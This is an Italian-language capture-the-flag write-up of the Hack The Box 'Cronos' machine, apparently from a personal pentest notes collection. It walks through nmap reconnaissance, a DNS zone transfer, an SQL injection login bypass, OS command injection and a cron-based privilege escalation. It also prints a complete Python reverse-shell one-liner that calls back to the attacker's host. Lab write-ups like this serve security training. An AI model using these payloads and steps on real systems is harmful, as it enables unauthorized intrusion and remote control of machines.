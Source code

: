 # Cronos

## Reconnaissance

Per prima cosa eseguo una scansione iniziale con nmap.

```text
sudo nmap -sC -sV -O -oA /usr/share/nmap/initial 10.10.10.13
```

* **-sC**: scipt nmap di default
* **-sV**: per rilevare la versione dei servizi
* **-O**: per rilevare il SO
* **-oA**: per stampare tutti i formati e salvarli nel file _nmap/initial_

Le porte aperte sono le seguenti:

* **Porta 22**: OpenSSH 7.2p2
* **Porta 53**: ISC BIND 9.10.3-P4
* **Porta 80**: Apache 2.4.18

```text
Nmap scan report for 10.10.10.13
Host is up (0.10s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=9/20%OT=22%CT=1%CU=42347%PV=Y%DS=2%DC=I%G=Y%TM=650AA21
OS:1%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=108%TI=Z%II=I%TS=8)SEQ(SP=1
OS:03%GCD=1%ISR=108%TI=Z%CI=I%II=I%TS=8)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O
OS:3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=7120%W2=
OS:7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M54DNNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

Innanzitutto, vedo cosa c'è sulla porta 80:

<p align="center">
  <img src="/Immagini/Linux-Box/Cronos/cronos-1.png" />
</p>

Facendo una ricerca su internet sembra che questa pagina sia dovuta a un errore di configurazione nel mapping tra l'ip e l'host.

Provo quindi ad utilizzare nslookup per identificare l'host:

```text
nslookup
> server 10.10.10.13
Default server: 10.10.10.13
Address: 10.10.10.13#53
10.10.10.13.in-addr.arpa  name= ns1.cronos.htb
```

Quindi aggiungo _cronos.htb_ al file _/ect/hosts_.

Cerco di capire se c'è la possibilita di effettuare un trasferimento di zona (zone transfer) utilizzando il comando dig:

```text
dig axfr @10.10.10.13 cronos.htb
```

La risposta ottenuta è la seguente:

```text
; <<>> DiG 9.18.1-1-Debian <<>> axfr @10.10.10.13 cronos.htb
; (1 server found)
;; global options: +cmd
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.		604800	IN	NS	ns1.cronos.htb.
cronos.htb.		604800	IN	A	10.10.10.13
admin.cronos.htb.	604800	IN	A	10.10.10.13
ns1.cronos.htb.		604800	IN	A	10.10.10.13
www.cronos.htb.		604800	IN	A	10.10.10.13
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 79 msec
;; SERVER: 10.10.10.13#53(10.10.10.13) (TCP)
;; WHEN: Wed Sep 20 10:23:45 EDT 2023
;; XFR size: 7 records (messages 1, bytes 203)
```

Quindi il server DNS è vulnerabile al trasferimento di zona. Proseguo aggiornando il file _/ect/hosts_ e visito la pagina _admin.cronos.htb_:

<p align="center">
  <img src="/Immagini/Linux-Box/Cronos/cronos-2.png" />
</p>

## Exploitation

Come primo tentativo utilizzo una banale [cheat sheet](https://github.com/mrsuman2002/SQL-Injection-Authentication-Bypass-Cheat-Sheet/blob/master/SQL%20Injection%20Cheat%20Sheet.txt) per capire se il form è vulnerabile all'SQL Injection.

Dopo diversi tentativi, scopro che è vulnerabile riempendo il campo username nel seguente modo:

```text
admin' #
```

Una volta dentro mi ritrovo questa pagina:

<p align="center">
  <img src="/Immagini/Linux-Box/Cronos/cronos-3.png" />
</p>

C'è un semplice form con la possibilità di scegliere tra due comandi: traceroute e ping. Di conseguenza, ipotizzo che questa funzionalità comunica direttamente con il SO. Quindi provo semplicemente a concatenare un comando alla richiesta.

<p align="center">
  <img src="/Immagini/Linux-Box/Cronos/cronos-4.png" />
</p>

**E' vulnerabile!**

Riesco a scoprire quindi che il primo flag è collegato all'utente noulis.

## Privilege Escalation

Per prima cosa cerco un modo per avviare una reverse shell. Da una rapida ricerca mi imbatto in questo comando python:

```text
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Concateno il tutto al comando traceroute e avvio un listener sulla mia macchina:

<p align="center">
  <img src="/Immagini/Linux-Box/Cronos/cronos-5.png" />
</p>

Per prima cosa, dato il nome della macchina, controllo il file crontab:

<p align="center">
  <img src="/Immagini/Linux-Box/Cronos/cronos-6.png" />
</p>

Da qui scopro che il file php artisan viene eseguito ogni minuto e che ho la possibilità di modificarlo.

Quindi trovo un [modo](https://github.com/pentestmonkey/php-reverse-shell) per creare un'altra reverse shell e avvio un listener.

**Sono root!**

<p align="center">
  <img src="/Immagini/Linux-Box/Cronos/cronos-7.png" />
</p>
